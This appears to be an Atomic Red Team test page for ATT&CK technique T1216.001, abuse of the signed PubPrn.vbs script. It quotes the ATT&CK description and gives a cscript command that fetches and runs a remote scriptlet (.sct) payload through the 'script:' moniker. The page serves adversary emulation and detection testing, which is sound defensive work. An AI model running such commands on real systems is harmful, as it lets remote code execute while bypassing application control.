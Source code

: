 # T1216.001 - Signed Script Proxy Execution: Pubprn

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1216/001)

<blockquote>Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](https://attack.mitre.org/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](https://attack.mitre.org/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).</blockquote>

## Atomic Tests

- [Atomic Test #1 - PubPrn.vbs Signed Script Bypass](#atomic-test-1---pubprnvbs-signed-script-bypass)

<br/>

## Atomic Test #1 - PubPrn.vbs Signed Script Bypass

Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.

**Supported Platforms:** Windows

**auto_generated_guid:** 9dd29a1f-1e16-4862-be83-913b10a88f6c

#### Inputs:

| Name           | Description                                   | Type | Default Value                                                                                            |
| -------------- | --------------------------------------------- | ---- | -------------------------------------------------------------------------------------------------------- |
| remote_payload | A remote payload to execute using PubPrn.vbs. | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1216.001/src/T1216.001.sct |

#### Attack Commands: Run with `command_prompt`!

```cmd
cscript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs localhost "script:#{remote_payload}"
```

<br/>
